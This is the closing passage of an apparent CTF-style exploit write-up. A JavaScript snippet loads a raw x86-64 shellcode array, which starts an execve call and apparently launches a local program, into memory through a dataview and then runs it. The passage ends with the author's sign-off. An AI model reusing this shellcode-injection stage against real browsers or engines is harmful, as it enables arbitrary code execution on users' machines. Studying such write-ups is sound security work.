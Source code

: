 ```javascript
var shellcode =[2572696426, 1647295304, 1932488297, 1213399144, 761849737, 1207959651, 3897747081, 51, 790655852, 1949253152, 1949266029, 991982712, 1347635524, 1029259596, 790638650, 796029813, 795765090, 1768187239, 1949245556, 1949266029, 1442870392, 3867756631, 2425357583];

for(let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(i * 4, shellcode[i], true);
}

f();
```

## In the end
I hope you learn something from this blog. If you like it , feel free to follow me in [github](https://github.com/Changochen) for more insteresting stuff. GG WP!
